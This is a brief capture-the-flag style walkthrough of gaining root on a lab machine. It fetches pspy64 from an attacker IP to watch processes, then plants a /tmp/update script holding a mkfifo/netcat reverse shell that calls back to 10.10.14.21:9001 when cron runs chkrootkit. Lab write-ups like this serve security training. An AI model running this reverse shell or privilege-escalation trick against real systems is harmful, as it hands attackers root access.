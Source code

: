 # Getting Root
```bash
wget 10.10.14.21/pspy64 
```

```bash
./pspy64
```
![[Pasted image 20211110000522.png]]



![[Pasted image 20211110000331.png]]
Content of 33899.txt
![[Pasted image 20211110000234.png]]

Create file update on /tmp

Content of update

```bash
#!/bin/bash

rm /tmp/2;mkfifo /tmp/2;cat /tmp/2|/bin/sh -i 2>&1|nc 10.10.14.21 9001 >/tmp/2
```

```bash
$ chmod +x update
```

Wait one minute to Cron call the process chkrootkit

![[Pasted image 20211110000836.png]]